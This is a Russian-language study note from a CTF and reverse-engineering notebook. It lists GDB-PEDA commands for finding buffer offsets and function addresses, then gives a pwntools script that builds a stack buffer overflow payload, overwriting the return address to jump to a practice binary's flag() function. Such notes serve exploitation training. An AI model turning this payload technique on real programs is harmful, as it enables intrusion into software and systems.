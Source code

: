 [[Кибербезопасность/Инструментарий#Реверс-инжиниринг|Инструменты ревёрса]]

# **GDB-PEDA** comands (проверка буфера и адресов)

**Установка и инструкции:** [longld/peda: PEDA - Python Exploit Development Assistance for GDB (github.com)](https://github.com/longld/peda)

**Запуск:**
`gdb myFile -q` - стандартный запуск бинарного файла `myFile`, который будет исследоваться

**Работа с полезной нагрузкой:**
`pattern_create 200 payload.txt` - создать файл `payload.txt` на 200 символов

**Передать полезную нагрузку:**
`run < payload.txt`

**Адреса**
* `pattern_offset 0x41417741` - Узнать количество символов (смещение) перед нужным адресом (`0x41417741`)
* `b flag` - установить брэйкпоинт на нужной функции
* `disass myFunc` - посмотреть выделенные для функции `myFunc` адреса

**Найти адрес конкретной функции (flag): **
`disass flag`

# **GENERATING-PAYLOAD-WITH-PWNTOOLS**

**Установка:**
```bash
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

**Подготовим полезную нагрузку:**
```python
# payload-gen.py
from pwn import *

offset = 188    // пусть будет необходимо переместиться на 188 байт в памяти
flag_addr = 0x080491e2 // пусть на 188 байте будет адрес 0x080491e2
eip_addr = p32(flag_addr)// eip_addr должен иметь 16й формат - функция p32() 
garbage = b'A'*offset

previous_frame = b'A'*4

param_1 = p32(0xdeadbeef)
param_2 = p32(0xc0ded00d)

payload = garbage + eip_addr + previous_frame + param_1 + param_2

with open("payload.txt", "wb") as file:
    file.write(payload)
```
Это один из самых простых вариантов, но даже здесь есть несколько моментов, на которые стоит обратить внимание:  
  
* адрес возврата, который мы перезаписываем, - eip_addr - упакован в шестнадцатеричный формат в little endian (по умолчанию для p32())  
* выходной файл - payload.txt - открывается в двоичном (b) режиме для записи (w)  
* мы используем соглашения вызова c, чтобы определить, какой параметр идет первым, а какой вторым  
* данные в previous_frame произвольны, они просто служат заполнителем, но их длина должна быть ровно 4 байта  
* для параметров используется та же упаковка, что и для начального адреса флага. 

Пришло время для проверки. Давайте установим точку останова на функции flag()
